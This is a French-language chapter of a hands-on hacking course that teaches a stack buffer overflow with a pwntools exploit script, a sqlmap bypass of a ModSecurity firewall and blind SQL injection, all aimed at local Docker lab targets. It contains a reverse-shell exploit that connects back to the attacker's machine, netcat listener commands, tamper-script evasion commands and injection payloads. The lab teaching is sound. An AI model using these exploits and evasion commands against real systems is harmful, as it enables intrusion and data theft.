


# Chapitre 03 : Vulnérabilités avancées et contournement des protections

---

## Objectifs pédagogiques

- Exploiter un buffer overflow avec contrôle du flux d'exécution (EIP)
- Maîtriser les injections SQL avancées : blind, time-based
- Contourner un WAF (ModSecurity) avec sqlmap tamper scripts
- Appliquer les techniques d'évasion (TA0005 Defense Evasion)

---

## Setup rapide

```bash
if [ -f /.dockerenv ]; then
    TARGET_BOF="buffovf"     ; PORT_BOF="9001"
    TARGET_WAF="waf-target"  ; PORT_WAF="80"
    TARGET_DVWA="dvwa"       ; PORT_DVWA="80"
else
    TARGET_BOF="localhost"   ; PORT_BOF="9001"
    TARGET_WAF="localhost"   ; PORT_WAF="8081"
    TARGET_DVWA="localhost"  ; PORT_DVWA="8080"
fi
KALI_IP=$(hostname -I | awk '{print $1}')
DOCKER_BRIDGE=$(ip addr show docker0 2>/dev/null | grep 'inet ' | awk '{print $2}' | cut -d/ -f1)
echo "Kali: $KALI_IP | Bridge: $DOCKER_BRIDGE"
echo "BuffOvF: $TARGET_BOF:$PORT_BOF | WAF: $TARGET_WAF:$PORT_WAF | DVWA: $TARGET_DVWA:$PORT_DVWA"
```

---

## 1. Buffer overflow — T1068 Exploitation for Privilege Escalation

### Comprendre la pile

```
Adresses hautes
+-----------------------------+
|  arguments                  |
+-----------------------------+
|  adresse de retour (EIP)    | <-- L'attaquant veut contrôler ce registre
+-----------------------------+
|  saved EBP                  |
+-----------------------------+
|  buffer local [64 octets]   | <-- Zone vulnérable (strcpy sans limite)
+-----------------------------+
Adresses basses
```

Principe : écrire plus de 64 octets dans `buffer` → déborder sur EIP → rediriger l'exécution vers notre shellcode.

---

## Lab 3.1 — Buffer Overflow avec pwntools

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 1h |
| **Conteneur** | `buffovf` (port 9001) |
| **Dossier de travail** | `~/cours-hacking/jour-3/labs/` |
| **Tactique ATT&CK** | TA0004 → T1068 |

### Prérequis

- [x] Conteneur buildé : `docker compose up -d --build buffovf`
- [x] Port 9001 ouvert : `nc -z "$TARGET_BOF" "$PORT_BOF" && echo OK`
- [x] pwntools : `pip install pwntools`
- [x] `mkdir -p ~/cours-hacking/jour-3/labs && cd ~/cours-hacking/jour-3/labs`

### Étape 1 — Test crash

```bash
python3 -c "print('A'*100)" | nc "$TARGET_BOF" "$PORT_BOF"
# → Input received: AAAA... (le programme répond avant de crasher)
```

### Étape 2 — Exploit avec reverse shell

Créez `~/cours-hacking/jour-3/labs/exploit_bof.py` :

```python
#!/usr/bin/env python3
"""
Exploit buffer overflow — cible buffovf:9001
Reverse shell vers Kali.
"""
from pwn import *
import sys

context.arch = 'i386'
context.os = 'linux'

# Récupérer la cible et l'IP Kali depuis les arguments
TARGET = sys.argv[1] if len(sys.argv) > 1 else 'localhost'
PORT = int(sys.argv[2]) if len(sys.argv) > 2 else 9001
CALLBACK_IP = sys.argv[3] if len(sys.argv) > 3 else '172.17.0.1'
CALLBACK_PORT = 4444

OFFSET = 76  # 64 buffer + 4 EBP + 8 align
print(f"[*] Cible : {TARGET}:{PORT}")
print(f"[*] Reverse shell → {CALLBACK_IP}:{CALLBACK_PORT}")

# Shellcode reverse shell
shellcode = asm(shellcraft.i386.linux.connect(CALLBACK_IP, CALLBACK_PORT))
print(f"[*] Shellcode : {len(shellcode)} octets")

# Payload
payload = b"A" * OFFSET
payload += b"BBBB"              # EIP placeholder
payload += b"\x90" * 32         # NOP sled
payload += shellcode

print(f"[*] Payload : {len(payload)} octets")

try:
    r = remote(TARGET, PORT, timeout=10)
    r.sendline(payload)
    print("[+] Payload envoyé. Vérifiez l'écouteur netcat.")
    r.interactive()
except Exception as e:
    print(f"[!] Erreur : {e}")
```

### Étape 3 — Lancer l'attaque

```bash
cd ~/cours-hacking/jour-3/labs

# Terminal 1 : écouteur netcat
nc -lvnp 4444

# Terminal 2 : lancer l'exploit
# Scénario A (Kali hôte) → reverse shell IP = docker0 bridge
python3 exploit_bof.py "$TARGET_BOF" "$PORT_BOF" "$DOCKER_BRIDGE"

# Scénario B (Kali Docker) → reverse shell IP = hostname -I
python3 exploit_bof.py "$TARGET_BOF" "$PORT_BOF" "$KALI_IP"
```

**Checkpoint :** Shell reçu sur `nc -lvnp 4444`.

### Reverse shell IP — Diagnostic



```bash
# Test de connectivité avant l'exploit
docker exec buffovf-target ping -c 1 "$DOCKER_BRIDGE" 2>/dev/null && \
  echo "→ Bridge joignable (Scénario A)" || \
  echo "→ Bridge injoignable, utilisez l'IP Docker (Scénario B)"
```

---

## Lab 3.2 — Contournement WAF avec sqlmap

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 45 min |
| **Conteneurs** | `waf-target`, `dvwa` |
| **Tactique ATT&CK** | TA0005 Defense Evasion → T1562.001 |

### Prérequis

- [x] WAF buildé : `docker compose up -d --build waf-target`
- [x] DVWA toujours lancé
- [x] Cookie DVWA prêt (F12 → Storage → Cookies → PHPSESSID)

### Comprendre le WAF

Une app vulnérable derrière ModSecurity qui bloque les signatures SQLi connues.



### Étape 1 — Vérifier le blocage

```bash
# Requête normale → 200
curl -s -o /dev/null -w "%{http_code}" "http://${TARGET_WAF}:${PORT_WAF}/?id=1"
# → 200

# SQLi brute → 403
curl -s -o /dev/null -w "%{http_code}" "http://${TARGET_WAF}:${PORT_WAF}/?id=1%20OR%201=1"
# → 403 (WAF bloque)

# Apostrophe → 403
curl -s -o /dev/null -w "%{http_code}" "http://${TARGET_WAF}:${PORT_WAF}/?id=1'"
# → 403
```

**Checkpoint A :** Requête normale = 200, SQLi = 403. Le WAF est actif.

### Étape 2 — Bypass avec sqlmap tamper scripts

```bash
cd ~/cours-hacking/jour-3/labs

sqlmap -u "http://${TARGET_WAF}:${PORT_WAF}/?id=1" \
  --tamper=space2comment,charencode,randomcase \
  --batch --dbs 2>&1 | tee sqlmap_waf_bypass.txt
```

**Checkpoint B :** sqlmap contourne le WAF et liste les bases.

### Tamper scripts utilisés

| Tamper | Effet | Exemple |
|---|---|---|
| `space2comment` | ` ` → `/**/` | `1 OR 1` → `1/**/OR/**/1` |
| `charencode` | url-encode les caractères | `'` → `%27` |
| `randomcase` | Casse aléatoire | `SELECT` → `sELeCt` |

---

## Exercices

### Exercice 1 : Offset EIP avec GDB

**Énoncé :** Confirmez l'offset EIP dans le conteneur buffovf avec GDB.

<details>
<summary><strong>Solution</strong></summary>

```bash
docker exec -it buffovf-target bash
cd /opt
python3 -c "from pwn import *; print(cyclic(200).decode())" > /tmp/p.txt
gdb -q ./vuln
(gdb) run $(cat /tmp/p.txt)
# noter la valeur de EIP après crash
# Sur Kali : python3 -c "from pwn import *; print(cyclic_find(<EIP_VAL>))"
```
</details>

### Exercice 2 : Blind SQLi manuelle

**Énoncé :** Sur DVWA medium, extrayez le nom d'un utilisateur via blind SQLi booléenne.

<details>
<summary><strong>Solution</strong></summary>

```sql
-- Le 1er caractère est-il 'a' ?
' AND SUBSTRING((SELECT user FROM users LIMIT 1), 1, 1)='a' --
-- Si la page change (5 users affichés), c'est 'a'. Sinon, essayer 'b', etc.
```
</details>

---

## Points clés à retenir

- Buffer overflow : écraser EIP → rediriger vers shellcode
- Reverse shell IP : `$DOCKER_BRIDGE` (Scénario A) ou `$KALI_IP` (Scénario B)
- Blind SQLi extrait des données sans retour visible
- WAF bypass : `--tamper=space2comment,charencode,randomcase`
- TA0005 Defense Evasion : 50+ techniques d'évasion

## Pour aller plus loin

- [ATT&CK Defense Evasion](https://attack.mitre.org/tactics/TA0005/)
- [Corelan Exploit Development](https://www.corelan.be/index.php/articles/)
- [Awesome WAF](https://github.com/0xInfection/Awesome-WAF)

---

*Chapitre précédent : [Jour 2](./JOUR-02.md)*
*Chapitre suivant : [Jour 4](./JOUR-04.md)*
